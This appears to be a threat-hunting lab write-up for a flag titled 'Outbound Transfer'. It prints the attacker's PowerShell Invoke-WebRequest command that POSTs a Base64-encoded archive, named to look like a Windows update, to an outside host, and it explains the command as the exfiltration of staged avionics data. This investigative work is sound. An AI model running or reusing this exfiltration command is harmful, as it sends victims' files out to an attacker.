

# Flag 30 – Outbound Transfer

## Question
HUNT LEAD: "Find the command that sent data out. It may not be on the host you expect."

## Answer
powershell  Invoke-WebRequest -Uri "https://cdn-telemetry.cloud-endpoint.net" -Method POST -InFile "C:\Windows\Temp\win_update_kb5034.b64" -UseBasicParsing

## Screenshot

## Finding
The Investigation identified successful data exfiltration activity through PowerShell Invoke-WebRequest. The attacker used an HTTP POST request to transmit the Base64-encoded archive win_update_kb5034.b64 to the external endpoint cdn-telemetry.cloud-endpoint.net. This activity confirms that the previously collected and staged avionics data was prepared and transmitted outside the environment, completing the attacker’s collection and exfiltration workflow consistent with intellectual property theft objectives.

